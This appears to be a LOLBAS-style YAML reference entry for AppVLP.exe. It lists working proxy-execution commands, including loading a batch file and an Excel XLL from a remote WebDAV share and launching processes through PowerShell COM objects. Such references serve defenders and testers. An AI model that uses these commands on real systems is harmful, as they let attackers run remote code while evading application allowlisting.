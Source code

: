 ---
Name: Appvlp.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: AppVLP.exe \\webdav\calc.bat
    Description: Executes calc.bat through AppVLP.exe
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
Full Path:
  - C:\Program Files\Microsoft Office\root\client\appvlp.exe
  - C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/MoooKitty/Code-Execution
  - https://twitter.com/moo_hax/status/892388990686347264
Notes: Thanks to fab - @0rbz_ (No record), Will - @moo_hax (Code Execution)
